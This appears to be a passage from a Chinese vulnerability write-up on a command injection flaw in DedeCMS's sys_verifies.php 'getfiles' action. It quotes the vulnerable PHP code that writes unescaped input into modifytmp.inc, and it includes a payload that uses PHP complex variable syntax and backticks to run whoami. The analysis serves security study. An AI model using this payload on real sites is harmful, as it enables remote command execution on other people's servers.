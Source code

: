 ```php
    
    $dirinfos = '';
    if($i > -1)
    {
        $dirinfos = '<tr bgcolor="#ffffff"><td colspan="2">';
        $dirinfos .= "本次升级需要在下面文件夹写入更新文件，请注意文件夹<font color='red'>是否有写入权限：</font><br />\r\n";
        foreach($dirs as $curdir)
        {
            $dirinfos .= $curdir['name']." 状态：".($curdir['writeable'] ? "[√正常]" : "<font color='red'>[×不可写]：请手动创建该目录</font>")."<br />\r\n";
        }
        $dirinfos .= "</td></tr>\r\n";
    }
        
    $doneStr = "<iframe name='stafrm' src='sys_verifies.php?action=down&curfile=0' frameborder='0' id='stafrm' width='100%' height='100%'></iframe>\r\n";
    
    include(DEDEADMIN.'/templets/sys_verifies_getfiles.htm');
    
    exit();
}
```



**Payload：** 
```php
xxx${${print%20`whoami`}}
```


1. **注入过程：**
   - 这个payload被提交到`sys_verifies.php`的`getfiles`操作
   - 经过处理后写入`modifytmp.inc`缓存文件，生成类似内容：
   ```php
   $files[0] = "${${print%20`whoami`}}";
   ```

2. **变量解析语法：**
   - `${...}` 是PHP的复杂变量语法
   - 内层 `${print%20`whoami`}` 也是变量解析结构
   - `%20`是URL编码的空格
   - 反引号`` `whoami` ``会执行系统命令

### 触发

- 
![image.png](https://xu17-1326239041.cos.ap-guangzhou.myqcloud.com/xu17/202505221337659.png)

```php
/*-----------------------
下载文件
function _getfiles()
------------------------*/
else if ($action == 'getfiles')
{
    if(!isset($refiles))
    {
        ShowMsg("你没进行任何操作！","sys_verifies.php");
        exit();
    }
    $cacheFiles = DEDEDATA.'/modifytmp.inc';
    $fp = fopen($cacheFiles, 'w');
    fwrite($fp, '<'.'?php'."\r\n");
    fwrite($fp, '$tmpdir = "'.$tmpdir.'";'."\r\n");
    $dirs = array();
    $i = -1;
```